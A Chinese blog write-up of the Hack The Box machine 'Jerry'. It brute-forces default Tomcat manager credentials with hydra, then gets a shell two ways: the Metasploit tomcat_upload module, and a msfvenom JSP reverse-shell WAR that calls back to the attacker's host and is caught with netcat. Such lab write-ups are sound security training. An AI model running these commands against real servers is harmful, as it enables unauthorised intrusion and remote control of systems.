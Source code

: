 ```yaml
---
title: Jerry
date: 2021-12-24 11:29:39
tags: HackThebox
categories: 中间件
---
```


## 靶机信息

![在这里插入图片描述](https://img-blog.csdnimg.cn/d5f1dc82530e485e91e914d59c62f9ff.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 信息收集

我们可以看到，目标主机只开放了8080端口，而且版本还是`7.0.88`的
![在这里插入图片描述](https://img-blog.csdnimg.cn/12b2a2ded3544b248ce0ae24e4c30139.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们立马登录tomcat页面，并且尝试账户和密码都是admin，看看能不能登录成功，结果是失败的。
![在这里插入图片描述](https://img-blog.csdnimg.cn/14569a31b1e04d76855654582e15e833.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a1c59a404d30477d9434d5ca81214227.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 漏洞利用

我们下载`seclists`这个工具，对tomcat的默认用户名和密码进行暴力破解
![在这里插入图片描述](https://img-blog.csdnimg.cn/4573275f27314e41997be90a187c528b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们使用hydra工具对账号密码进行破解，发现账号是tomcat，密码是s3cret

```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http://10.10.10.95:8080/manager/html
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2e489a5e1395436f87bbc2c1c05db04b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

### MSF获取权限

```bash
search tomcat_mgr
use exploit/multi/http/tomcat_upload
show options
set rhosts 10.10.10.95
set lhost 10.10.14.11
set httpusername tomcat
set httppassword s3cret
set rport 8080
exploit
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/405b1654a30e4fd8b5ff405938d24a51.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们获取一个shell，发现已经是最高权限了
![在这里插入图片描述](https://img-blog.csdnimg.cn/efd9843d30e5431cbe6ae1408fbcb011.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们就可以查看到flag值了
![在这里插入图片描述](https://img-blog.csdnimg.cn/89ecac8618f24fdf9edd6cf96a419036.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

### NC反弹shell

首先我们先准备一个木马

```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.11 lport=1234 -f war > shell.war
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/c4abdde92c484b46ac8782a2c62da4fa.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用账号密码登录进部署页面，并将生成的木马部署进tomcat服务器上
![在这里插入图片描述](https://img-blog.csdnimg.cn/9dd05049c33f45cf971a5f70a9a6d2e8.png)
然后我们启动nc进行监听，并且在浏览器上浏览我们刚刚上传的war包，反弹shell成功。
![在这里插入图片描述](https://img-blog.csdnimg.cn/fbcd897e89c149549ead8a54352163ae.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/488c679d14e64be28972f71dab63504a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
